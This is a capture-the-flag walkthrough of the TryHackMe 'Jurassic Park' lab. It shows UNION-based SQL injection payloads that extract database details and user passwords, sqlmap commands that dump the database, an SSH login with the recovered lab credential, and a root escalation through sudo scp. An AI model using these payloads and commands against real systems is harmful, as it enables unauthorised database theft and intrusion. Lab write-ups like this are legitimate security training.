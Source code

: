 ```yaml
---
date: 2025-01-09
categories: [CTF, THM]
title: "THM - Jurassic Park"
tags: ['nmap', 'privilege escalation', 'python', 'rce', 'sqli']

description: "Jurassic Park - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Jurassic Park

NMAP

![image1](../resources/0d8486104815498dbb69eb0d08f9f0ce.png)

Website  `http://10.10.204.254/shop.php`

![image2](../resources/45ff848e4e2144b08d81a73bf66b9f3a.png)

- Clicking on one gives the following URL:

`http://10.10.204.254/item.php?id=3`

- If you remove the ?id=3 it results in:

![image3](../resources/f143690100104fe89cef2b27c46b7d6a.png)

- So we know it's MySQL

- Attempting to break it:

`http://10.10.204.254/item.php?id=3'`

or using Union

`http://10.10.204.254/item.php?id=3 UNION SELECT 1 --`


![image4](../resources/73d44746390b456287aab5787447fd81.png)


![image5](../resources/1ad2d0b6688546db8b2fe5c0735fd687.png)

- I randomly changed the id=100  `http://10.10.204.254/item.php?id=100`


![image6](../resources/912e630cebc14b458a3866468a8818e7.png)

Compared to (normal request ie. id=1):


![image7](../resources/31a7e397bc2d46e4a6cfd4c76ac26ece.png)

- Fuzzing the id field ?id=5

`http://10.10.204.254/item.php?id=5`


![image8](../resources/26983266b6fa45548a59b591a4548c36.png)

`http://10.10.204.254/item.php?id=5 union select 1`


![image9](../resources/b8c49afcc66540ed87671ed2043f9e6a.png)

```bash
union select 1,2,3,4,5

```

![image10](../resources/d7a3af7b686c4cb7878bd5940a5c5ca5.png)

- 2 and 4 are being reflected so:
```bash
union select 1,database(),3,version(),5

```

![image11](../resources/a2527e647a984555a29acdf0855d8e6c.png)


![image12](../resources/09bc127294704ff9b5b1dc4fad73f19e.png)

- Fetch the users table from the database

```bash
?id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"

```

![image13](../resources/4f29f6b27b164a3d88c4625aff32b250.png)

- Get column passwords from the table

```bash
?id=1 union select 1,2,3,password,5 from users

```

![image14](../resources/bcb29cdb94da432a9f681737285eba68.png)

- But it dared me to use SQLMap so...

- Open Burp and capture the request. Save the request to a file (burp)


![image15](../resources/e203c5678a324f6f9d0ff7cfaf21b647.png)

- Run SQLMap:
```bash
sqlmap -r burp --batch

```
- Found the following injection points:

![image16](../resources/b522cbfca79e43ff8d559b8bf7b8c3be.png)

- Or just dump the database (more noisy):
```bash
sqlmap -r burp --batch --dump

```

![image17](../resources/623dc3a0492240c188eba816bb16c36a.png)


![image18](../resources/e3e7e9b6bd3444ba8b48bfb6ef2a53ae.png)

**Dennis : ih8dinos**

- SSH with the credentials:
```bash
ssh dennis@10.10.204.254

```
- Enumeration:

```bash
sudo -l

```

![image19](../resources/3de621fb681d4d3bbde25c06b18bd1ed.png)

- We can run scp as sudo

- GTFOBins


![image20](../resources/8f9b2b08eeb1490eb1286d51671eddf9.png)


![image21](../resources/b635569cb6d54129be10089ed47bba69.png)

- Got Root

![image22](../resources/1b6e1e41bc804d6d9db55a4f46f4e11e.png)

- Stabilise:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image23](../resources/0196f74cfb104313b16a28f7840ebe7f.png)

- Search for flags
```bash
find / -name "flag\*" 2>/dev/null

```

![image24](../resources/b138f792a58e488283c75ffb24c7258c.png)


![image25](../resources/da975e6f85094c7493e8d327b1d95aa9.png)

- Found flag3 in:
/home/dennis/.bash_history